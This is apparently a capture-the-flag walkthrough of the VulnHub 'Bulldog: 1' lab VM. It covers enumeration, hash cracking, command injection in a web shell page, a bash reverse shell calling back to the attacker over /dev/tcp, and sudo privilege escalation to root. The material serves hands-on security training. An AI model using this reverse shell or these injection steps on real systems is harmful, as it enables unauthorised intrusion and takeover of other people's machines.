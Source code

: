 # Bulldog: 1

## 1.Get VM IP:

```bash
root@kali: arp-scan -I eth0 -l

Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1    0a:00:27:00:00:0f       (Unknown: locally administered)
192.168.56.100  08:00:27:3c:59:b7       PCS Systemtechnik GmbH
192.168.56.107  08:00:27:38:4c:8d       PCS Systemtechnik GmbH
```

The IP address is `192.168.56.107`, let's scan it.

## 2.Enumeration

```bash
root@kali: nmap -sV -sC -p- -oN nmap.out 192.168.56.107

Nmap scan report for 192.168.56.107
Host is up (0.00050s latency).

PORT     STATE SERVICE VERSION
23/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 20:8b:fc:9e:d9:2e:28:22:6b:2e:0e:e3:72:c5:bb:52 (RSA)
|   256 cd:bd:45:d8:5c:e4:8c:b6:91:e5:39:a9:66:cb:d7:98 (ECDSA)
|_  256 2f:ba:d5:e5:9f:a2:43:e5:3b:24:2c:10:c2:0a:da:66 (ED25519)
80/tcp   open  http    WSGIServer 0.1 (Python 2.7.12)
|_http-title: Bulldog Industries
|_http-server-header: WSGIServer/0.1 Python/2.7.12
8080/tcp open  http    WSGIServer 0.1 (Python 2.7.12)
|_http-title: Bulldog Industries
MAC Address: 08:00:27:38:4C:8D (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

port `23` is used for ssh and we now visit the web application :

![mainpage](https://github.com/Git-K3rnel/VulnHub/assets/127470407/c08d7dd9-9063-48ab-8cad-6b6738e1844f)

we try to fuzz the directories :

```bash
root@kali: gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.56.107

===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 0] [--> http://192.168.56.107/admin/]
/dev                  (Status: 301) [Size: 0] [--> http://192.168.56.107/dev/]
/notice               (Status: 301) [Size: 0] [--> http://192.168.56.107/notice/]
```

visiting the `/admin` page shows a django admin panel login, but we need username and password:

![admin](https://github.com/Git-K3rnel/VulnHub/assets/127470407/13a0ccf5-917f-4ec7-9a9b-0cbdcdde5fdb)

so we go to `/dev` : 

![dev](https://github.com/Git-K3rnel/VulnHub/assets/127470407/98c856d8-e169-4fc9-9b2c-2daf686fabde)

here we see afew users mentioned at the bottom of the page, but if we see the page source we find user passwords hashes too :

![hash](https://github.com/Git-K3rnel/VulnHub/assets/127470407/fee2a848-115a-40e9-b002-823b1782c436)

we try to crack these hashes and only 2 of them is cracked, the one for user `nick` and `sarah`.

use an online resource to crack the hashes :

```text
nick  | ddf45997a7e18a25ad5f5cf222da64814dd060d5 = bulldog
sarah | d8b8dd5e7f000b8dea26ef8428caf38c04466b3e = bulldoglover
```

there is also a link in `/dev` which redirects us to `/dev/shell` and here we must first be authenticated :

![shell](https://github.com/Git-K3rnel/VulnHub/assets/127470407/3f52cd3b-6c74-4d25-8158-f5da8909a0de)

since we found passwords of the users, try to login to `/admin` path with user nick or sarah :

![login](https://github.com/Git-K3rnel/VulnHub/assets/127470407/f754b5c3-8af8-44dc-9f6d-9cf2e93f4ab1)

now we can go to `/dev/shell` and this page is shown :

![webshell](https://github.com/Git-K3rnel/VulnHub/assets/127470407/2b55ef5b-1d21-411d-9251-10c8e5001961)

here we can run afew commands, but if we use `&&` we can execute another command too, so there is a command injection vulnerability here :

![injection](https://github.com/Git-K3rnel/VulnHub/assets/127470407/6bf10839-4cad-4c49-9237-266ce302abba)

so we can get a reverse shell.

## 3.Gaining Shell

I just made a file with a reverse shell payload in it and called it `shell.sh`:

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.56.102/4444 0>&1
```

then served a python http server and used `wget` to download and put the file in `/dev/shm` directory of the victim :

![wget](https://github.com/Git-K3rnel/VulnHub/assets/127470407/112e8ae4-5a2e-4a00-b748-d05714c81a02)

then start a listener on your machine and just execute it with another bash command :

![bash](https://github.com/Git-K3rnel/VulnHub/assets/127470407/4ce5f34f-db6a-491d-9c66-a4149345860f)

```bash
nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.107] 41242
bash: cannot set terminal process group (963): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

bash: /root/.bashrc: Permission denied
django@bulldog:/home/django/bulldog$ id

uid=1001(django) gid=1001(django) groups=1001(django),27(sudo)

django@bulldog:/home/django/bulldog$
```

## 4.Privilege Escalation

We navigate to `/home/bulldogadmin` and see the content :

```bash
django@bulldog:/home/bulldogadmin$ ls -la
ls -la
total 40
drwxr-xr-x 5 bulldogadmin bulldogadmin 4096 Sep 21  2017 .
drwxr-xr-x 4 root         root         4096 Aug 24  2017 ..
-rw-r--r-- 1 bulldogadmin bulldogadmin  220 Aug 24  2017 .bash_logout
-rw-r--r-- 1 bulldogadmin bulldogadmin 3771 Aug 24  2017 .bashrc
drwx------ 2 bulldogadmin bulldogadmin 4096 Aug 24  2017 .cache
drwxrwxr-x 2 bulldogadmin bulldogadmin 4096 Sep 21  2017 .hiddenadmindirectory
drwxrwxr-x 2 bulldogadmin bulldogadmin 4096 Aug 25  2017 .nano
-rw-r--r-- 1 bulldogadmin bulldogadmin  655 Aug 24  2017 .profile
-rw-rw-r-- 1 bulldogadmin bulldogadmin   66 Aug 25  2017 .selected_editor
-rw-r--r-- 1 bulldogadmin bulldogadmin    0 Aug 24  2017 .sudo_as_admin_successful
-rw-rw-r-- 1 bulldogadmin bulldogadmin  217 Aug 24  2017 .wget-hsts
```

there is a hidden directory here called `.hiddenadmindirectory` and the content is :

```bash
customPermissionApp
note
```

read the note and try to execute the `customPermissionApp` but it is not possible, so let's check the strings of it :


![password](https://github.com/Git-K3rnel/VulnHub/assets/127470407/8e8d5869-eac3-49f0-b114-0e3fd5b5b552)

put these lined together and remove the `H` from it and you will get :

```text
SUPERultimatePASSWORDyouCANTget
```

this password is used for user `django` (our current user), let's check out sudo permissions :

```bash
django@bulldog:/home/bulldogadmin/.hiddenadmindirectory$ sudo -l
sudo -l
[sudo] password for django: SUPERultimatePASSWORDyouCANTget

Matching Defaults entries for django on bulldog:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User django may run the following commands on bulldog:
    (ALL : ALL) ALL
django@bulldog:/home/bulldogadmin/.hiddenadmindirectory$
```

easily we can be root on the machine :

```bash
django@bulldog:/home/bulldogadmin/.hiddenadmindirectory$ sudo /bin/bash

root@bulldog:/home/bulldogadmin/.hiddenadmindirectory# cd /root

root@bulldog:~# cat congrats.txt
cat congrats.txt
Congratulations on completing this VM :D That wasn't so bad was it?

Let me know what you thought on twitter, I'm @frichette_n

As far as I know there are two ways to get root. Can you find the other one?

Perhaps the sequel will be more challenging. Until next time, I hope you enjoyed!
```

this is how you can become root on this machine :)
